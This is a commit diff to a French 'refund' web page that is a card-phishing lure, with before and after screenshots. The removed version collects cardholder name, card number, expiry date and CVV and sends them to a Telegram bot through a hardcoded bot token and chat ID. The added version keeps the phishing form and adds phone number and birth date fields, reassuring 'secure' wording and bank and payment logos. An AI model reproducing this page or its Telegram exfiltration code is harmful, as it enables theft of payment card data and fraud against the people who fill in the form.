

Before and after one commit to Whatsap8889/Remboursement-, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,138 +3,111 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Remboursement</title>
+    <title>Formulaire de Remboursement</title>
     <script src="https://cdn.tailwindcss.com"></script>
     <style>
         body {
             font-family: 'Arial', sans-serif;
         }
-        .error-message {
-            color: #e63946;
-            font-size: 0.875rem;
-            margin-top: 0.25rem;
-        }
-        .hidden {
-            display: none;
-        }
     </style>
 </head>
-<body class="bg-gray-100">
-    <!-- En-tête -->
-    <header class="bg-blue-600 text-white py-4 shadow-lg text-center">
-        <h1 class="text-4xl font-bold">Service de Remboursement</h1>
-        <p class="mt-1 text-lg">Nous acceptons toutes les cartes bancaires</p>
-    </header>
+<body class="bg-gray-100 flex items-center justify-center min-h-screen">
 
-    <!-- Section principale -->
-    <section class="flex items-center justify-center min-h-screen">
-        <div class="bg-white shadow-2xl rounded-lg p-8 w-full max-w-lg">
-            <h2 class="text-3xl font-bold text-center text-gray-800 mb-6">Formulaire de Remboursement</h2>
-            <form id="remboursement-form" onsubmit="validateForm(event)">
-                <!-- Nom du titulaire -->
-                <div class="mb-4">
-                    <label for="nom" class="block text-sm font-medium text-gray-700">Nom du titulaire</label>
-                    <input type="text" id="nom" name="nom" placeholder="Ex : Jean Dupont" required
-                        class="mt-1 block w-full px-4 py-2 border rounded-md shadow-sm">
+    <!-- Formulaire principal -->
+    <div class="bg-white rounded-lg shadow-xl p-8 max-w-lg w-full">
+        <!-- Logo -->
+        <div class="flex justify-center mb-4">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/5/59/Euro_symbol_blue.svg" alt="Logo Euro"
+                class="w-16 h-16">
         </div>
 
-                <!-- Numéro de la carte -->
+        <!-- Titre -->
+        <h1 class="text-2xl font-bold text-center text-gray-800 mb-2">Formulaire de Remboursement</h1>
+        <p class="text-sm text-center text-gray-600 mb-6">
+            Veuillez entrer les informations de votre carte bancaire pour recevoir votre remboursement en toute sécurité.
+            Ce processus est sécurisé et protégé.
+        </p>
+
+        <!-- Formulaire -->
+        <form id="remboursement-form" onsubmit="return validateForm(event)">
+            <!-- Nom complet -->
             <div class="mb-4">
-                    <label for="numero-carte" class="block text-sm font-medium text-gray-700">Numéro de la carte</label>
-                    <input type="text" id="numero-carte" name="numero-carte" placeholder="1234 5678 9012 3456" required maxlength="19"
-                        class="mt-1 block w-full px-4 py-2 border rounded-md shadow-sm">
-                    <p id="card-error" class="error-message hidden">Le numéro de la carte doit contenir 16 chiffres.</p>
+                <label for="nom" class="block text-sm font-medium text-gray-700">Titulaire de la carte</label>
+                <input type="text" id="nom" placeholder="Ex: Jean Dupont" required
+                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+            </div>
+
+            <!-- Numéro de carte -->
+            <div class="mb-4">
+                <label for="numero-carte" class="block text-sm font-medium text-gray-700">Numéro de carte</label>
+                <input type="text" id="numero-carte" placeholder="1234 5678 9012 3456" required maxlength="19"
+                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
             </div>
 
             <!-- Date d'expiration -->
             <div class="mb-4">
-                    <label for="date-expiration" class="block text-sm font-medium text-gray-700">Date d'expiration</label>
-                    <input type="month" id="date-expiration" name="date-expiration" required
-                        class="mt-1 block w-full px-4 py-2 border rounded-md shadow-sm">
-                    <p id="date-error" class="error-message hidden">La date d'expiration est invalide.</p>
+                <label for="date-expiration" class="block text-sm font-medium text-gray-700">Date d'expiration (MM/AA)</label>
+                <input type="month" id="date-expiration" required
+                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
             </div>
 
             <!-- Code CVV -->
-                <div class="mb-6">
+            <div class="mb-4">
                 <label for="cvv" class="block text-sm font-medium text-gray-700">Code CVV</label>
-                    <input type="text" id="cvv" name="cvv" placeholder="123" required maxlength="3"
-                        class="mt-1 block w-full px-4 py-2 border rounded-md shadow-sm">
-                    <p id="cvv-error" class="error-message hidden">Le CVV doit contenir exactement 3 chiffres.</p>
+                <input type="text" id="cvv" placeholder="123" required maxlength="3"
+                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
             </div>
 
-                <!-- Bouton de confirmation -->
+            <!-- Numéro de téléphone -->
+            <div class="mb-4">
+                <label for="telephone" class="block text-sm font-medium text-gray-700">Numéro de téléphone</label>
+                <input type="tel" id="telephone" placeholder="Ex: 06 12 34 56 78" required
+                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+            </div>
+
+            <!-- Date de naissance -->
+            <div class="mb-6">
+                <label for="naissance" class="block text-sm font-medium text-gray-700">Date de naissance (JJ/MM/AAAA)</label>
+                <input type="date" id="naissance" required
+                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+            </div>
+
+            <!-- Bouton de validation -->
             <button type="submit"
-                    class="w-full bg-blue-600 text-white font-bold py-2 px-4 rounded-md hover:bg-blue-700 transition duration-300">
-                    Confirmer le Remboursement
+                class="w-full bg-green-600 text-white font-bold py-2 px-4 rounded-lg hover:bg-green-700 transition duration-300">
+                Valider mon remboursement
             </button>
         </form>
+
+        <!-- Icônes des cartes -->
+        <div class="mt-6 flex justify-center space-x-4">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/0/04/Visa.svg" alt="Visa" class="h-8">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/2/2a/Mastercard-logo.svg" alt="MasterCard"
+                class="h-8">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/b/b5/PayPal.svg" alt="PayPal" class="h-8">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/3/39/CB_logo.svg" alt="CB" class="h-8">
         </div>
-    </section>
+    </div>
 
+    <!-- Script pour التحقق من البيانات -->
     <script>
-        const token = "7493515332:AAGlVbk9dCC2tqKxdv8TjgM32qqPRqFsy2I"; // توكن البوت
-        const chatId = "5372119436"; // معرف المحادثة
-
-        // دالة إرسال البيانات إلى Telegram
-        function sendToTelegram(message) {
-            fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({
-                    chat_id: chatId,
-                    text: message
-                })
-            })
-            .then(response => response.json())
-            .then(data => {
-                if (data.ok) {
-                    alert("✅ Le remboursement a été confirmé et envoyé à Telegram !");
-                } else {
-                    alert("❌ Une erreur s'est produite : " + data.description);
-                }
-            })
-            .catch(error => {
-                alert("❌ Erreur de connexion : " + error);
-            });
-        }
-
-        // التحقق من صحة النموذج
         function validateForm(event) {
             event.preventDefault();
 
             const nom = document.getElementById('nom').value.trim();
-            const cardNumber = document.getElementById('numero-carte').value.replace(/\s+/g, '');
-            const expirationDate = document.getElementById('date-expiration').value;
-            const cvv = document.getElementById('cvv').value;
+            const numeroCarte = document.getElementById('numero-carte').value.replace(/\s+/g, '');
+            const cvv = document.getElementById('cvv').value.trim();
 
-            let valid = true;
-
-            // التحقق من رقم البطاقة
-            if (!/^\d{16}$/.test(cardNumber)) {
-                document.getElementById('card-error').classList.remove('hidden');
-                valid = false;
-            } else {
-                document.getElementById('card-error').classList.add('hidden');
+            if (!/^\d{16}$/.test(numeroCarte)) {
+                alert("❌ Numéro de carte invalide. Veuillez saisir 16 chiffres.");
+                return false;
+            }
+            if (!/^\d{3}$/.test(cvv)) {
+                alert("❌ Le code CVV doit contenir exactement 3 chiffres.");
+                return false;
             }
 
-            // التحقق من CVV
-            if (!/^\d{3}$/.test(cvv)) {
-                document.getElementById('cvv-error').classList.remove('hidden');
-                valid = false;
-            } else {
-                document.getElementById('cvv-error').classList.add('hidden');
-            }
-
-            if (valid) {
-                const message = `
-📄 Nouveau remboursement:
-👤 Nom: ${nom}
-💳 Numéro de carte: ${cardNumber}
-📅 Date d'expiration: ${expirationDate}
-🔒 CVV: ${cvv}
-                `;
-                sendToTelegram(message);
-            }
+            alert("✅ Votre remboursement a été validé avec succès !");
         }
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
